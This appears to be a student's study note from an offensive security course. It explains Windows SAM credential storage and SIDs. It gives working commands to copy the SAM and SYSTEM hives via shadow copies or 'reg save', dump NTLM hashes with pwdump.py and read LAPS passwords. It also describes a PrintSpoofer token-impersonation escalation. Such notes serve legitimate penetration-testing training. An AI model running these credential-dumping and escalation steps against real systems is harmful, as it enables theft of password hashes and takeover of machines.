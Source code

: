 ## Local Windows Credentials

Local Windows credentials are stored in the Security Account Manager (SAM) database password hashes using the NTLM hashing format, which is based on MD4 algorithm. The windows has a build in
Administrator account. The account is disabled by defult on window workstation since Vista. Howevere, the account is enabled on servers by default. This could be an possible attack factor.
All Windows account has a unique Security Identifier(SID) with the following format. 

```
S-R-X-Y1-Y2-Yn-1-Yn
```

```
|Comment |Description
|S       | Indicates that the string is a SID
|R       | Indicates the revision level
|X       | Indicates the identifier authority value
|Y       | Represents a series of subauthority values, where n is the number of values
```

#### Copy SAM

We can use Volume Shadow Copy Server to create a snapshot of the lical hard drive. And copy the sam from local hard drive.

Create a snapshot, and verify with vssadmin
```
C:\> wmic shadowcopy call create Volume='C:\'

C:\> vssadmin list shadows
vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2013 Microsoft Corp.
Contents of shadow copy set ID: {8e3a3a18-93a6-4b18-bc54-7639a9baf7b2}
Contained 1 shadow copies at creation time: 11/14/2019 6:53:26 AM
Shadow Copy ID: {13fb63f9-f631-408a-b876-9032a9609c22}
Original Volume: (C:)\\?\Volume{a74776de-f90e-4e66-bbeb-1e507d7fa0d4}\
Shadow Copy Volume: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
```

Copy sam databsae from shadows, and copy the encryption keys from system file(neeed to create s shadow copy first)
```
C:\> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam C:\users\offsec.corp1\Downloads\sam

C:\> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system C:\users\offsec.corp1\Downloads\system
```

We can also copy sam and system file from reg key

```
C:\> reg save HKLM\sam C:\users\offsec.corp1\Downloads\sam
C:\> reg save HKLM\system C:\users\offsec.corp1\Downloads\system
```

Now we can decrypt and dump NTLM hash with [creddump.py](https://github.com/CiscoCXSecurity/creddump7)
```
kali@kali:~/creddump7$ python pwdump.py /home/kali/system /home/kali/sam
```

In 2015, Microsoft released Local Administrator Password Solution (LAPS), which offered a
secure and scalable way of remotely managing the local administrator password for domainjoined computers. If LAPS is in use, we should try to gain access to the clear text passwords in Active Directory.

we can use the [LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit) PowerShell script

```
PS C:\Tools> Import-Module .\LAPSToolkit.ps1
PS C:\Tools> Get-LAPSComputers
```
## Access Token and Elevation with Impersonation token

An access token is created by the kernel upon user authentication and contains important values that are linked to a specific user through the SID. Local administrators receive two access tokens when authenticating. The first (which is used by default) is configured to create processes as medium integrity. When a user selects the “Run as administrator” option for an application, the second elevated token is used instead. The User Account Control (UAC) mechanism links these two tokens to a single user and
creates the consent prompt.

Privileges are also included in the access token. if the present privileges are enabled or disabled and may be
dynamically updated through the Win32 AdjustTokenPrivileges API. For example, a user has SeShutdownPrivilege disabled, if the user oose to shut down the computer through the shutdown command the back-end code will enable the privilege with AdjustTokenPrivileges and then perform the required actions to power off the operating system. We can add/update accounts's permission/token though **secpol.msc**.

There are many different token privilege escalation ttp discussed in this [blog](https://foxglovesecurity.com/2017/08/25/abusing-token-privileges-for-windows-local-privilege-escalation/). We create a c# code [PrintSpooferNet](/10WindowsCred/PrintSpofferNet.cs) that allow us to escalate permission to system account when the current user has SeImpersonatePrivilege.

Our PrintSpooferNet code use [PrintSpoofer attack](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/) that relies on windows pipes. The attack is based on the fact that the print spooler monitors printer object changes and sends change notifications to print clients by connecting to their respective named pipes. If we can create a process running with the SeImpersonatePrivilege privilege that simulates a print client,
we will obtain a SYSTEM token that we can impersonate.

A pipe is a section of shared memory inside the kernel that processes can use for communication. One process can create a pipe (the pipe server) while other processes can
connect to the pipe (pipe clients) and read/write information from/to it, depending on the permission.
page 482
